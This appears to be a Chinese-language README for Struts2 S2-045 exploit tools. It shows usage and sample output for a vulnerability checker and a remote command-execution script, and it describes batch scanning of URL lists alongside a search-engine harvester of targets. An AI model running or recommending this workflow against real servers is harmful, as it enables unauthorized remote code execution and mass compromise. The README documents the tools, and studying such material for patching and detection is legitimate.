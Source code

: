 ### Usage

#### 检测漏洞POC
python s2_045.py http://xxx.com/a.action

```bash
>python s2_045_cmd.py http://xxx.com/a.action
[Loopholes exist] http://xxx.com/a.action
```
#### 漏洞利用POC（cmd版）
python s2_045_cmd.py http://xxx.com/a.action

```bash
>python s2_045_cmd.py http://xxx.com/a.action
[Loopholes exist] http://xxx.com/a.action
[cmd]>>ls
......
```
#### 多线程批量检测脚本
python S2_045_thread.py（填写url.txt后运行）

```bash
填写url.txt文件，每行一个url地址(url中含.action/.do的地址)，运行完以后会生成一个result.txt文件存放存在漏洞的url
```

#### 利用搜索引擎批量检测脚本
想要采集网站中带.action/.do地址的，请看：[Search_S2_045](https://github.com/tengzhangchao/Struts2_045-Poc/tree/master/Search_S2_045)


更多请参考博客：[nMask](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
